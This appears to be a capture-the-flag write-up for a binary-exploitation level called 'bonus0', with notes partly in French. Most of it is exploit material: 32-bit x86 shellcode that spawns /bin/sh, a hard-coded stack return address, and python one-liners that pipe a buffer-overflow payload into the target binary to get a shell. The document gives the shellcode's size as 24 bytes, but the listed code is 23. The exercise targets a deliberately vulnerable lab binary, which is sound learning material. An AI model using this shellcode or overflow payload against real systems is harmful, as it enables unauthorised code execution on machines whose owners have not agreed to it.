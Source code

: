 Here is our shellcode (size 24)

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Payload

0xbffff71c --> address of v3 --> \x1c\xf7\xff\xbf

```bash
(python -c 'print ("A" * 20)'; cat) | ./bonus0
```

```
(python -c 'print "A" * 20'; python -c 'print "B" * 17')  | ./bonus0
```

```
(python -c 'print "A" * 20'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x1c\xf7\xff\xbf"')  | ./bonus0
```

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1 --> 1ere partie shellcode
\xb0\x0b\xcd\x80 --> 2eme partie shellcode
